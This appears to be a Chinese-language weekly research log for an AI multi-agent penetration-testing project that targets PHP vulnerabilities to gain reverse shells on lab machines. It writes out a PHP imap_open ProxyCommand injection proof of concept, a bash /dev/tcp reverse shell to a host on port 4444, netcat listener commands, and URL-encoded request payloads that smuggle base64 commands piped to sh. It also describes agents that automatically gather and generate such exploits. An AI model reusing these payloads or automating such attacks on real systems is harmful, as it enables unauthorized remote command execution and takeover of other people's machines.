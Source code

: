 # 250702

这周主要在针对php类漏洞进行测试，目标是获得执行reverse shell，获得目标靶机终端的控制权。

## 实验部分

比较官方的cve攻略链接里可能只有比较简单的example，但是我觉得应该至少攻击要执行到获取到目标靶机shell端的控制权的程度

![示意图](./image/250702/1751465457751.png)

![示意图](./image/250702/1751465042166.png)

## Search Agent

- 工具类的参数整理效果还行: `nc -nvlp {port}

  ```json
  {
  "tool_name": "nc (Netcat)",
  "tool_description": "A versatile networking utility used for reading from and writing to network connections using TCP or UDP. Commonly used for setting up reverse shells or listening on ports.",
  "tool_usage": "nc -lvnp {port}",
  "comment": "# -l : Listen mode, used to wait for an incoming connection\n# -v : Verbose output (optional)\n# -n : Numeric-only IP addresses, no DNS\n# -p 4444 : Port number to listen on (can be changed by replacing 4444 with your desired port)\n\n# Example: Change the listening port to 1234\nnc -lvnp 1234"
  }
  ```
- 脚本类的参数整理效果很不行，但是送到 `Generate Agent`那边推理过后可能最后能生成一个正确的脚本，效果不稳定

  ![示意图](./image/250702/1751465415250.png)

  ```json
  {
    "tool_name": "imap_open exploit script",
    "tool_description": "A proof-of-concept PHP script that exploits the imap_open function to execute arbitrary shell commands even when functions like exec are disabled, by injecting a malicious mailbox string with ProxyCommand.",
    "tool_usage": "<?php\n\n//{base64-encoded payload}",
    "comment": "Example payload: echo '123456789'>/tmp/test0001 encoded as: ZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==\n\n$server = \"x -oProxyCommand=echo\\tZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==|base64\\t-d|sh\";\n\n
  // Use imap_open to trigger the payload via ProxyCommand injection\nimap_open('{'.$server.':143/imap}INBOX', '', '') or die(\"\\n\\nError: \".imap_last_error());"
  }
  ```

## Planning Agent 

启用搜索的时机还要再规划一下

```html
PTT examples

4. reverse shell
  4.1 crafting a reverse shell request
    4.1.1 base64 encode(completed)
        echo 'echo "/bin/bash -i >& /dev/tcp/192.168.137.33/4444 0>&1" > /tmp/123' | base64
    4.1.2 modify request(completed)
        hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
  4.2 crafting a request to trigger the reverse shell
    4.2.1 base64 encode
  4.2 reverse shell
    4.2.1 local listening(completed)
        nc -lvp 4444
    4.2.1 crafting a request to trigger the reverse shell
        4.2.1.1 base64 encode(completed)
              echo '/bin/bash /tmp/123' | base64
        4.2.1.1 modify request(completed)
              hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=111

```

## 其它

打算把burpsuit的mcp服务接入进来

- 因为网络配置的问题？burpsuit不能及时拦截到目标流量，需要多人工调试一下总结经验先

